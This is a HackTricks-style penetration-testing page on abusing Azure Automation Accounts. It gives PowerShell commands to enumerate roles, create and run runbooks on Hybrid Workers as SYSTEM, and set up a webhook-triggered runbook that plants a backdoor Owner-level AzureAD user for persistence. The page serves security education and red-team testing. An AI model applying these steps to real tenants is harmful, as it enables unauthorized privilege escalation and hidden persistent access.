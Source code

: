 # Az - Automation Account

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

Azure Automation delivers a cloud-based automation, operating system updates, and configuration service that supports consistent management across your Azure and non-Azure environments. It includes process automation, configuration management, update management, shared capabilities, and heterogeneous features.

These are like "**scheduled tasks**" in Azure that will let you execute things (actions or even scripts) to **manage**, check and configure the **Azure environment**.

### Run As Account

When **Run as Account** is used, it creates an Azure AD **application** with self-signed certificate, creates a **service principal** and assigns the **Contributor** role for the account in the **current subscription** (a lot of privileges).\
Microsoft recommends using a **Managed Identity** for Automation Account.

{% hint style="warning" %}
This will be **removed on September 30, 2023 and changed for Managed Identities.**
{% endhint %}

## Compromise Runbooks & Jobs

**Runbooks** allows you to **execute arbitrary PowerShell** code. This could be **abused by an attacker** to steal the permissions of the attached principal (if any).\
In the **code** of **Runbooks** you could also find **sensitive info** (such as creds).

If you can **read** the **jobs**, do it as they **contain** the **output** of the run (potential **sensitive info**).

### Hybrid Worker

A Runbook can be run in a **container inside Azure** or in a **Hybrid Worker.**\
\*\*\*\*The **Log Analytics Agent** is deployed on the VM to register it as a hybrid worker.\
The hybrid worker jobs run as **SYSTEM** on Windows and **nxautomation** account on Linux.\
Each Hybrid Worker is registered in a **Hybrid Worker Group**.

Therefore, if you can choose to run a **Runbook** in a **Windows Hybrid Worker**, you will execute **arbitrary commands** inside that machine as **System**.

## Compromise State Configuration (SC)

Azure Automation **State Configuration** is an Azure configuration management service that allows you to write, manage, and compile PowerShell Desired State Configuration (DSC) [configurations](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations) for nodes in any cloud or on-premises datacenter. The service also imports [DSC Resources](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources), and assigns configurations to target nodes, all in the cloud. You can access Azure Automation State Configuration in the Azure portal by selecting **State configuration (DSC)** under **Configuration Management**.

### RCE

It's possible to abuse SC to run arbitrary scripts in the managed machines.

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## Enumeration

```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group
```

### Create a Runbook

```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```

## Persistence

### Automation that creates highly privileged user

* Create a new Automation Account
  * "Create Azure Run As account": Yes
* Import a new runbook that creates an AzureAD user with Owner permissions for the subscription
  * Sample runbook for this Blog located here – [https://github.com/NetSPI/MicroBurst](https://github.com/NetSPI/MicroBurst)
  * Publish the runbook
  * Add a webhook to the runbook
* Add the AzureAD module to the Automation account
  * Update the Azure Automation Modules
* Assign "User Administrator" and "Subscription Owner" rights to the automation account
* Eventually lose your access…
*   Trigger the webhook with a post request to create the new user

    ```powershell
    $uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
    $AccountInfo  = @(@{RequestBody=@{Username="BackdoorUsername";Password="BackdoorPassword"}})
    $body = ConvertTo-Json -InputObject $AccountInfo
    $response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
    ```

## References

* [https://learn.microsoft.com/en-us/azure/automation/overview](https://learn.microsoft.com/en-us/azure/automation/overview)
* [https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
